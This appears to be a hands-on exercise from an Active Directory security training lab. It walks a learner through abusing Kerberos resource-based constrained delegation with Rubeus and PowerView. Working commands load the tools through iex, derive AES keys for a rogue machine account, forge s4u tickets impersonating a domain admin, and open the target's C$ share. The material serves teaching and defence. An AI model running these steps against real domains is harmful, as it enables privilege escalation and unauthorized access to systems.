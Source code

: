 # Exercise 6 - Kerberos Ressource-based Constrained Delegation

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

## Exercise

In this exercise, we'll abuse the ressource-based constrained delegation permissions we acquired in exercise 3. You already learned by now why we gave those permissions to the taskservice account and not to john directly: it's all about the SPN.

Let's dive into the topic. The attackflow and the commands are very similar to the previous exercise. In fact, we're doing more or less the same - just the permissions that allow us to do so are different.

Open powershell with admin rights (right-click "Run as Administrator") and load rubeus/powerview.

```
cd C:\attacker-tools
cat -raw .\Invoke-Rubeus.ps1 | iex
```

Rubeus allows us to start powershell in a new logon session. This implies that the tickets we forge only exist in this logon session and do not interfere with the already existing kerboers tickets of user john. 

```
Invoke-Rubeus -Command "createnetonly /program:C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe /show"
```

Remember, execute the commands below in the powershell you just started with rubeus!

```
cd C:\attacker-tools
cat -raw .\Invoke-Rubeus.ps1 | iex
```

Calculate the AES keys of evilpc$.

```
Invoke-Rubeus -Command "hash /password:EvilPassword1 /domain:contoso.com /user:evilpc$"
```

Now use s4u to request a TGS impersonating the domain admin user "Bruce Willis" (bwillis) against adsec-01. We request 3 tickets for 3 different services. "CIFS" will be used for SMB access and "HOST"/"RPCSS" are needed for WMI.

```
Invoke-Rubeus -Command "s4u /user:evilpc$ /aes256:7217DCA9120F62686DB482695281FA79A3F2836553757E4FE5DDB37DB7D638FC /impersonateuser:bwillis /msdsspn:cifs/adsec-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:evilpc$ /aes256:7217DCA9120F62686DB482695281FA79A3F2836553757E4FE5DDB37DB7D638FC /impersonateuser:bwillis /msdsspn:host/adsec-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:evilpc$ /aes256:7217DCA9120F62686DB482695281FA79A3F2836553757E4FE5DDB37DB7D638FC /impersonateuser:bwillis /msdsspn:rpcss/adsec-01.contoso.com /ptt"
```

Have a look at the kerberos tickets you just created by running klist.

```
klist
```

Let's see if that worked. Try to access the server through SMB.

```
ls \\adsec-01.contoso.com\C$
```


# Questions
- None :-) You did well, have a coffee!
